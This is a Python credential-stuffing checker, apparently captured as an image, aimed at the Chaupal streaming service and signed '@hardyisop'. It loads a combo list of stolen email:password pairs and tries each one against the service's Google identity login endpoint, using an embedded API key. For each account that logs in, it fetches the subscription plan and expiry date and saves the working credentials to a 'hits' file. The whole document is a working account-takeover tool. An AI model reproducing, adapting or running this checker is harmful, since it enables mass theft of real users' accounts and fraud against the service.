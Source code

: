 import requests
import time
import datetime
import os
print('----------Hardyisop----------')
print('Hits Will Be Automatically Saved In The Folder Where You Have Saved This Checker')
input('Press Enter To Add Combo\WordList: ')
cp = input('Enter The Path Of Your Combo\WordList: ')
eprf = open(cp,'r')
eprl = eprf.readlines()
for i in eprl:
    user,pasn = i.split(':')
    pas = pasn[0:-1]
    login_url = 'https://www.googleapis.com/identitytoolkit/v3/relyingparty/verifyPassword?key=AIzaSyAQeFSw6qQAVlMDgfigdsU2dvyvhfhKCHY'
    login_payload = '{"email":"'+user+'","password":"'+pas+'","returnSecureToken":true}'
    login_headers = {
        'accept': 'application/json, text/plain, */*',
    'accept-encoding': 'gzip, deflate, br',
    'accept-language': 'en-US,en;q=0.9',
    'content-length': '59',
    'content-type': 'application/json',
    'user-agent': 'Dalvik/2.1.0 (Linux; U; Android 9; SM-S901N Build/PQ3A.190605.003)'
    }
    login = requests.post(login_url, data = login_payload, headers = login_headers)
    login_success = 'idToken'
    login_source = login.text
    if login_success in login_source:
        tk_find_s = login_source.find('idToken": "')
        tk_find_e = login_source.find('"', tk_find_s+50)
        tk = login_source[tk_find_s+11:tk_find_e]
        subscription_url_get = 'https://content.chaupal.tv/payments/subscription'
        subscription_headers_get = {
        'authorization': 'Bearer '+tk,
        'user-agent': 'Dalvik/2.1.0 (Linux; U; Android 9; SM-S901N Build/PQ3A.190605.003)'
    }
        subscription = requests.get(subscription_url_get, headers = subscription_headers_get)
        subscription_source = subscription.text
        if subscription_source == 'null':
            print(f'{user}:{pas} --> Free Account')
            continue
        # print(subscription_source)
        find_pns = subscription_source.find('name":"')+7
        find_pne = subscription_source.find('"',find_pns)
        plan_name = subscription_source[find_pns:find_pne]
        find_pes = subscription_source.find('T',15)
        expiry_date = subscription_source[20:find_pes]
        ex_ut = time.mktime(datetime.datetime.strptime(expiry_date, '%Y-%m-%d').timetuple())
        cur_ut = time.time()
        dl = str(int((ex_ut-cur_ut)/84600))
        find_sps = subscription_source.find('platforms":[')+12
        find_spe = subscription_source.find(']',find_sps)
        sp = subscription_source[find_sps:find_spe].replace('"',' ')
        print('User => '+user)
        print('Password => '+pas)
        print('Plan Name => '+plan_name)
        print('Expiry Date => '+expiry_date)
        print('Days Left => '+dl)
        print('Supported Platforms => '+sp)
        print('Checker By => @hardyisop')
        save_hits = open('Chaupal_Hits.txt', 'a')
        save_hits.write(f'\n----------Hardyisop----------\nUser => {user}\nPassword => {pas}\nPlan => {plan_name}\nExpiry => {expiry_date}\nDays Left => {dl}\nSupported Platforms => {sp}\nChecker By => @hardyisop\n----------Hardyisop----------\n')
    else:
        print(f'{user}:{pas}+ --> Failed')
